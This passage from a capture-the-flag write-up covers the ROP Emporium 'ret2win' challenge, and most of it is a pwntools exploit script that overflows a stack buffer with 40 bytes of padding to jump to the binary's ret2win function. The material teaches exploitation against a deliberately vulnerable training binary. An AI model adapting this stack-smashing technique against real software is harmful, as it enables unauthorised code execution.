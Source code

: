 ![Flag](assets/images/posts/2019/08/ropemporium-0-ret2win/image-7.png)

### But wait... There's more!!!

Yeah we got the flag. but to do something cool with pwntools since we are already using the python lib. Since the binary was not stripped (important), and pwntools automatically loads the binary into its context. Pwntools also loads the symbols, and their corresponding addresses which we can call in the exploit script. in other words we don't have to mess about with static addresses but can call the ret2win using pwntools symbols.
```python
#Blog: https://blog.securitybits.io/2019/08/08/ropemporium-0-ret2win/
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('ret2win')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x{exe.symbols.main:x}
continue
'''.format(**locals())

junk = 'A'*40
ret2win = p64(exe.symbols.ret2win)

payload = ""
payload += junk
payload += ret2win
```